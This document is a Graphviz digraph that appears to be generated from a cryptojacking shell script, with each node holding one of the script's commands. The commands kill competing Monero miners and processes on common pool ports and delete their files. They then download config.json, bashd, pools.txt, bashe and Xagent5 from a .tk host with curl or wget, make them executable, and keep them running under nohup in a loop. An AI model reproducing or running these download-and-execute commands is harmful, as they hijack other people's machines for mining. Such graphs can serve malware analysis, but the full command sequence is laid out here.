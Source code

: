 digraph {
0 [label="SHELL=/bin/sh "];
0 -> 0
2 [label="PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin "];
2 -> 252 [label="N,"];
252 [label="pkill -f sourplum "];
252 -> 6 [label="N,N,function,(,),SC,{,"];
6 [label="pkill wnTKYg "];
6 -> 8 [label="\n,"];
8 [label="pkill ddg* "];
8 -> 10 [label="&&,"];
10 [label="rm -rf /tmp/ddg* "];
10 -> 12 [label="&&,"];
12 [label="rm -rf /tmp/wnTKYg "];
12 -> 14 [label="&&,"];
14 [label="rm -rf /boot/grub/deamon "];
14 -> 16 [label="\n,"];
16 [label="rm -rf /boot/grub/disk_genius "];
16 -> 18 [label="&&,"];
18 [label="rm -rf /tmp/*index_bak* "];
18 -> 20 [label="\n,"];
20 [label="rm -rf /tmp/*httpd.conf* "];
20 -> 22 [label="\n,"];
22 [label="rm -rf /tmp/*httpd.conf "];
22 -> 24 [label="\n,"];
24 [label="rm -rf /tmp/a7b104c270 "];
24 -> 26 [label="\n,"];
26 [label="pkill -f AnXqV.yam "];
26 -> 128 [label="\n,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 32 [label="N,"];
32 [label="grep mine.moneropool.com "];
32 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 42 [label="N,"];
42 [label="grep xmr.crypto-pool.fr:8080 "];
42 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 52 [label="N,"];
52 [label="grep xmr.crypto-pool.fr:3333 "];
52 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 62 [label="N,"];
62 [label="grep zhuabcn@yahoo.com "];
62 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 72 [label="N,"];
72 [label="grep monerohash.com "];
72 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 82 [label="N,"];
82 [label="grep /tmp/a7b104c270 "];
82 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 92 [label="N,"];
92 [label="grep xmr.crypto-pool.fr:6666 "];
92 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 102 [label="N,"];
102 [label="grep xmr.crypto-pool.fr:7777 "];
102 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 112 [label="N,"];
112 [label="grep xmr.crypto-pool.fr:443 "];
112 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 122 [label="N,"];
122 [label="grep stratum.f2pool.com:8888 "];
122 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 132 [label="N,"];
132 [label="grep xmrpool.eu "];
132 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 154 [label="N,"];
154 [label="ps ax "];
154 -> 140 [label="\n,N,"];
140 [label="grep var "];
140 -> 142 [label="N,"];
142 [label="grep lib "];
142 -> 144 [label="N,"];
144 [label="grep jenkins "];
144 -> 146 [label="N,"];
146 [label="grep -v httpPort "];
146 -> 148 [label="N,"];
148 [label="grep -v headless "];
148 -> 150 [label="N,"];
150 [label="grep -c "];
150 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 154 [label="N,"];
154 [label="ps ax "];
154 -> 156 [label="\n,N,"];
156 [label="grep -o ./[0-9]* -c "];
156 -> 158 [label="N,"];
158 [label="xargs pkill -f "];
158 -> 160 [label="N,"];
160 [label="pkill -f biosetjenkins "];
160 -> 162 [label="\n,"];
162 [label="pkill -f Loopback "];
162 -> 164 [label="\n,"];
164 [label="pkill -f apaceha "];
164 -> 166 [label="\n,"];
166 [label="pkill -f cryptonight "];
166 -> 168 [label="\n,"];
168 [label="pkill -f stratum "];
168 -> 170 [label="\n,"];
170 [label="pkill -f mixnerdx "];
170 -> 172 [label="\n,"];
172 [label="pkill -f performedl "];
172 -> 174 [label="\n,"];
174 [label="pkill -f JnKihGjn "];
174 -> 176 [label="\n,"];
176 [label="pkill -f irqba2anc1 "];
176 -> 178 [label="\n,"];
178 [label="pkill -f irqba5xnc1 "];
178 -> 180 [label="\n,"];
180 [label="pkill -f irqbnc1 "];
180 -> 182 [label="\n,"];
182 [label="pkill -f ir29xc1 "];
182 -> 184 [label="\n,"];
184 [label="pkill -f conns "];
184 -> 186 [label="\n,"];
186 [label="pkill -f irqbalance "];
186 -> 188 [label="\n,"];
188 [label="pkill -f crypto-pool "];
188 -> 190 [label="\n,"];
190 [label="pkill -f minexmr "];
190 -> 192 [label="\n,"];
192 [label="pkill -f XJnRj "];
192 -> 194 [label="\n,"];
194 [label="pkill -f NXLAi "];
194 -> 196 [label="\n,"];
196 [label="pkill -f BI5zj "];
196 -> 198 [label="\n,"];
198 [label="pkill -f askdljlqw "];
198 -> 236 [label="\n,"];
236 [label="pkill -f minerd "];
236 -> 202 [label="\n,"];
202 [label="pkill -f minergate "];
202 -> 204 [label="\n,"];
204 [label="pkill -f Guard.sh "];
204 -> 206 [label="\n,"];
206 [label="pkill -f ysaydh "];
206 -> 208 [label="\n,"];
208 [label="pkill -f bonns "];
208 -> 210 [label="\n,"];
210 [label="pkill -f donns "];
210 -> 212 [label="\n,"];
212 [label="pkill -f kxjd "];
212 -> 214 [label="\n,"];
214 [label="pkill -f Duck.sh "];
214 -> 216 [label="\n,"];
216 [label="pkill -f bonn.sh "];
216 -> 218 [label="\n,"];
218 [label="pkill -f conn.sh "];
218 -> 220 [label="\n,"];
220 [label="pkill -f kworker34 "];
220 -> 222 [label="\n,"];
222 [label="pkill -f kw.sh "];
222 -> 224 [label="\n,"];
224 [label="pkill -f pro.sh "];
224 -> 226 [label="\n,"];
226 [label="pkill -f polkitd "];
226 -> 228 [label="\n,"];
228 [label="pkill -f acpid "];
228 -> 230 [label="\n,"];
230 [label="pkill -f icb5o "];
230 -> 232 [label="\n,"];
232 [label="pkill -f nopxi "];
232 -> 234 [label="\n,"];
234 [label="pkill -f irqbalanc1 "];
234 -> 236 [label="\n,"];
236 [label="pkill -f minerd "];
236 -> 238 [label="\n,"];
238 [label="pkill -f i586 "];
238 -> 240 [label="\n,"];
240 [label="pkill -f gddr "];
240 -> 242 [label="\n,"];
242 [label="pkill -f mstxmr "];
242 -> 244 [label="\n,"];
244 [label="pkill -f ddg.2011 "];
244 -> 246 [label="\n,"];
246 [label="pkill -f wnTKYg "];
246 -> 248 [label="\n,"];
248 [label="pkill -f deamon "];
248 -> 250 [label="\n,"];
250 [label="pkill -f disk_genius "];
250 -> 252 [label="\n,"];
252 [label="pkill -f sourplum "];
252 -> 254 [label="\n,"];
254 [label="rm -rf /tmp/httpd.conf "];
254 -> 256 [label="\n,"];
256 [label="rm -rf /tmp/conn "];
256 -> 258 [label="\n,"];
258 [label="rm -rf /tmp/conns "];
258 -> 260 [label="\n,"];
260 [label="rm -f /tmp/irq.sh "];
260 -> 262 [label="\n,"];
262 [label="rm -f /tmp/irqbalanc1 "];
262 -> 264 [label="\n,"];
264 [label="rm -f /tmp/irq "];
264 -> 266 [label="\n,"];
266 [label="PORT_NUMBER=3333 "];
266 -> 292 [label="\n,"];
292 [label="lsof -i tcp:${PORT_NUMBER} "];
292 -> 294 [label="N,\n,N,"];
294 [label="awk NR!=1 {print $2} "];
294 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 274 [label="N,"];
274 [label="PORT_NUMBER=5555 "];
274 -> 292 [label="\n,"];
292 [label="lsof -i tcp:${PORT_NUMBER} "];
292 -> 294 [label="N,\n,N,"];
294 [label="awk NR!=1 {print $2} "];
294 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 282 [label="N,"];
282 [label="PORT_NUMBER=7777 "];
282 -> 292 [label="\n,"];
292 [label="lsof -i tcp:${PORT_NUMBER} "];
292 -> 294 [label="N,\n,N,"];
294 [label="awk NR!=1 {print $2} "];
294 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 290 [label="N,"];
290 [label="PORT_NUMBER=14444 "];
290 -> 292 [label="\n,"];
292 [label="lsof -i tcp:${PORT_NUMBER} "];
292 -> 294 [label="N,\n,N,"];
294 [label="awk NR!=1 {print $2} "];
294 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 304 [label="N,"];
304 [label="[ ! -f /tmp/config.json ] "];
304 -> 300 [label="\n,},N,function,(,),SC,{,SC,N,if,"];
300 [label="curl http://e3sas6tzvehwgpak.tk/config.json -o /tmp/config.json "];
300 -> 308 [label=";,then,"];
308 [label="chmod +x /tmp/config.json "];
308 -> 304 [label="&&,"];
304 [label="[ ! -f /tmp/config.json ] "];
304 -> 306 [label="\n,SC,N,if,"];
306 [label="wget http://e3sas6tzvehwgpak.tk/config.json -P /tmp "];
306 -> 308 [label=";,then,"];
308 [label="chmod +x /tmp/config.json "];
308 -> 310 [label="&&,"];
310 [label="rm -rf config.json.* "];
310 -> 318 [label="\n,"];
318 [label="[ ! -f /tmp/bashd ] "];
318 -> 314 [label="\n,fi,\n,fi,\n,SC,N,if,"];
314 [label="curl http://e3sas6tzvehwgpak.tk/bashd -o /tmp/bashd "];
314 -> 322 [label=";,then,"];
322 [label="chmod +x /tmp/bashd "];
322 -> 318 [label="&&,"];
318 [label="[ ! -f /tmp/bashd ] "];
318 -> 320 [label="\n,SC,N,if,"];
320 [label="wget http://e3sas6tzvehwgpak.tk/bashd -P /tmp "];
320 -> 322 [label=";,then,"];
322 [label="chmod +x /tmp/bashd "];
322 -> 324 [label="&&,"];
324 [label="rm -rf bashd.* "];
324 -> 345 [label="\n,"];
345 [label="nohup /tmp/bashd -p bashd /dev/null "];
345 -> 459 [label="\n,fi,\n,"];
459 [label="/dev/null "];
459 -> 459
352 [label="p=$(ps aux | grep bashd | grep -v grep | wc -l) "];
352 -> 443 [label="&,else,"];
443 [label="ps aux "];
443 -> 356 [label="N,N,N,"];
356 [label="grep bashd "];
356 -> 447 [label="N,"];
447 [label="grep -v grep "];
447 -> 449 [label="N,"];
449 [label="wc -l "];
449 -> 451 [label="N,"];
451 [label="[ ${p} -eq 1 ] "];
451 -> 364 [label="\n,SC,N,if,"];
364 [label="echo bashd "];
364 -> 455 [label=";,then,"];
455 [label="[ ${p} -eq 0 ] "];
455 -> 345 [label="elif,"];
345 [label="nohup /tmp/bashd -p bashd /dev/null "];
345 -> 459 [label=";,then,"];
459 [label="/dev/null "];
459 -> 459
460 [label="echo  "];
460 -> 422 [label="&,else,"];
422 [label="sleep 15 "];
422 -> 352 [label="fi,\n,fi,\n,"];
352 [label="p=$(ps aux | grep bashd | grep -v grep | wc -l) "];
352 -> 443 [label="\n,"];
443 [label="ps aux "];
443 -> 356 [label="N,N,N,"];
356 [label="grep bashd "];
356 -> 447 [label="N,"];
447 [label="grep -v grep "];
447 -> 449 [label="N,"];
449 [label="wc -l "];
449 -> 451 [label="N,"];
451 [label="[ ${p} -eq 1 ] "];
451 -> 364 [label="\n,SC,N,if,"];
364 [label="echo bashd "];
364 -> 455 [label=";,then,"];
455 [label="[ ${p} -eq 0 ] "];
455 -> 374 [label="elif,"];
374 [label="[ ! -f /tmp/pools.txt ] "];
374 -> 370 [label=";,then,SC,N,if,"];
370 [label="curl http://e3sas6tzvehwgpak.tk/pools.txt -o /tmp/pools.txt "];
370 -> 378 [label=";,then,"];
378 [label="chmod +x /tmp/pools.txt "];
378 -> 374 [label="&&,"];
374 [label="[ ! -f /tmp/pools.txt ] "];
374 -> 376 [label="\n,SC,N,if,"];
376 [label="wget http://e3sas6tzvehwgpak.tk/pools.txt -P /tmp "];
376 -> 378 [label=";,then,"];
378 [label="chmod +x /tmp/pools.txt "];
378 -> 380 [label="&&,"];
380 [label="rm -rf pools.txt.* "];
380 -> 388 [label="\n,"];
388 [label="[ ! -f /tmp/bashe ] "];
388 -> 384 [label="\n,fi,\n,fi,\n,SC,N,if,"];
384 [label="curl http://e3sas6tzvehwgpak.tk/bashe -o /tmp/bashe "];
384 -> 392 [label=";,then,"];
392 [label="chmod +x /tmp/bashe "];
392 -> 388 [label="&&,"];
388 [label="[ ! -f /tmp/bashe ] "];
388 -> 390 [label="\n,SC,N,if,"];
390 [label="wget http://e3sas6tzvehwgpak.tk/bashe -P /tmp "];
390 -> 392 [label=";,then,"];
392 [label="chmod +x /tmp/bashe "];
392 -> 394 [label="&&,"];
394 [label="rm -rf bashe.* "];
394 -> 415 [label="\n,"];
415 [label="nohup /tmp/bashe -C /tmp/pools.txt /dev/null "];
415 -> 459 [label="\n,fi,\n,"];
459 [label="/dev/null "];
459 -> 459
399 [label="p=$(ps aux | grep bashe | grep -v grep | wc -l) "];
399 -> 443 [label="&,else,"];
443 [label="ps aux "];
443 -> 403 [label="N,N,N,"];
403 [label="grep bashe "];
403 -> 447 [label="N,"];
447 [label="grep -v grep "];
447 -> 449 [label="N,"];
449 [label="wc -l "];
449 -> 451 [label="N,"];
451 [label="[ ${p} -eq 1 ] "];
451 -> 411 [label="\n,SC,N,if,"];
411 [label="echo bashe "];
411 -> 455 [label=";,then,"];
455 [label="[ ${p} -eq 0 ] "];
455 -> 415 [label="elif,"];
415 [label="nohup /tmp/bashe -C /tmp/pools.txt /dev/null "];
415 -> 459 [label=";,then,"];
459 [label="/dev/null "];
459 -> 459
460 [label="echo  "];
460 -> 460 [label="&,else,"];
460 [label="echo  "];
460 -> 422 [label="fi,\n,fi,\n,else,"];
422 [label="sleep 15 "];
422 -> 430 [label="fi,\n,"];
430 [label="[ ! -f /tmp/Xagent5 ] "];
430 -> 426 [label="\n,SC,N,if,"];
426 [label="curl http://e3sas6tzvehwgpak.tk/Xagent5 -o /tmp/Xagent5 "];
426 -> 434 [label=";,then,"];
434 [label="chmod +x /tmp/Xagent5 "];
434 -> 430 [label="&&,"];
430 [label="[ ! -f /tmp/Xagent5 ] "];
430 -> 432 [label="\n,SC,N,if,"];
432 [label="wget http://e3sas6tzvehwgpak.tk/Xagent5 -P /tmp "];
432 -> 434 [label=";,then,"];
434 [label="chmod +x /tmp/Xagent5 "];
434 -> 436 [label="&&,"];
436 [label="rm -rf Xagent5.* "];
436 -> 457 [label="\n,"];
457 [label="nohup /tmp/Xagent5 /dev/null "];
457 -> 459 [label="\n,fi,\n,"];
459 [label="/dev/null "];
459 -> 459
441 [label="p=$(ps aux | grep Xagent5 | grep -v grep | wc -l) "];
441 -> 443 [label="&,else,"];
443 [label="ps aux "];
443 -> 445 [label="N,N,N,"];
445 [label="grep Xagent5 "];
445 -> 447 [label="N,"];
447 [label="grep -v grep "];
447 -> 449 [label="N,"];
449 [label="wc -l "];
449 -> 451 [label="N,"];
451 [label="[ ${p} -eq 1 ] "];
451 -> 453 [label="\n,SC,N,if,"];
453 [label="echo Xagent5 "];
453 -> 455 [label=";,then,"];
455 [label="[ ${p} -eq 0 ] "];
455 -> 457 [label="elif,"];
457 [label="nohup /tmp/Xagent5 /dev/null "];
457 -> 459 [label=";,then,"];
459 [label="/dev/null "];
459 -> 459
460 [label="echo  "];
460 -> 462 [label="&,else,"];
462 [label="[ 1 ] "];
462 -> 464 [label="fi,\n,fi,\n,},SC,N,while,"];
464 [label="kills "];
464 -> 466 [label="do,"];
466 [label="downloadyam "];
466 -> 467 [label="\n,"];
}
